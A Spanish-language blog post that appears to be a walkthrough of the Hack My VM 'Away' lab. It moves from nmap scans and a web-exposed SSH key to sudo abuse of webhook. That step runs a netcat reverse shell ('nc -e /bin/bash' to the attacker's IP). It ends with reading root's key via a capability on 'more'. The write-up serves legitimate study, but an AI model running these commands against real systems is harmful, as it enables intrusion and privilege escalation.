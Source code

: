 ```yaml
---
layout: post
title: Away
date: 2022-12-25
categories: ["HMV", "SSH", "Capabilities"]
thumbnail: "assets/images/Away.png"
---
```


# Away [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.0.22 -oG allPorts`
- `nmap -sCV -p22,80 192.168.0.22 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si entramos a la página vemos que nos dice un usuario (`tula`) seguido de una imagen randomizada. Al principio de la imagen vemos `[ED25519 256]`. Tras ver esto podemos pensar que se han generado unas llaves `SSH ED25519`, vamos a probar suerte y nos vamos a dirigir a `http://192.168.0.22/id_ed25519`. Bien! Se nos ha descargado la clave privada, también nos descargaremos la pública (`id_ed25519.pub`).

Si examinamos la clave pública veremos que al final pone: `My passphrase is: Theclockisticking`. Ya podemos entrar a la máquina por `SSH`.

Bien! Ya estamos en la máquina como `tula`!

### Subida de privilegios #1
Para poder ser `root` en la máquina necesitaremos primero pasar por `lula`. Para comenzar haremos `sudo -l` y veremos que podemos ejecutar como `lula` y sin contraseña el binario `webhook`:

```
Matching Defaults entries for tula on away:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tula may run the following commands on away:
    (lula) NOPASSWD: /usr/bin/webhook
```

Tras investigar un poco llegué al repositorio de [`WebHook`](https://github.com/adnanh/webhook), ahí podemos ver la documentación para saber cómo funciona.

Necesitamos un fichero `hook.json` donde será especificada la tarea a realizar. Me copié la plantilla que pone como ejemplo y la cambié un poco:

```
[
  {
    "id": "shell",
    "execute-command": "/home/tula/shell.sh",
    "command-working-directory": "/var/webhook"
  }
]
```

Antes de ejecutar la herramienta nos vamos a crear el fichero que especifiqué antes (`shell.sh`). Tiene `NC` instalado por lo que nos será más fácil:

```
#!/bin/bash

nc -e /bin/bash 192.168.0.19 4444
```

Ahora con `chmod +x shell.sh` le damos permisos de ejecución y estamos listos para seguir con la escalada de privilegios. Antes de nada nos pondremos en escucha con `NC` por el puerto que hayamos especificado antes, en mi caso el `4444`.

- `nc -nlvp 4444`

Para poder convertirnos en `lula` ejecutaremos `webhook` como dicho usuario:

- `sudo -u lula /usr/bin/webhook -verbose`

Se nos creará una `WebHook` que será accesible por el puerto `9000`, por lo que nos dirigimos a `http://192.168.0.22:9000/hooks/shell` y recibiremos la conexión.

Bien! Ya estamos como `lula` en la máquina víctima!

### Subida de privilegios #2
Ahora sí podemos convertirnos en `root`. Para conseguir dicho usuario me descargué [`LinPEAS`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) y lo ejecuté. Tras unos segundos de espera vemos algo que nos llama la atención:

```
/usr/bin/more cap_dac_read_search=ep
```

Vemos que el binario tiene la capacidad de saltarse los permisos de lectura, adicionalmente podemos ver que pertenece a nuestro grupo con `ls -alh /usr/bin/more`:

```
-rwxrwx--- 1 root lula 59K ene 20 21:10 /usr/bin/more
```

Con esto sabido y recordando que la máquina utiliza pares de llaves `ED25519` podemos intentar leer la clave privada de `root` para conectarnos por `SSH`:

- `more /root/.ssh/id_ed25519 > root.id_ed25519`

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1
deducted
AwQ=
-----END OPENSSH PRIVATE KEY-----
```

Enhorabuena! Ya estamos en la máquina como `root`! Qué fácil!
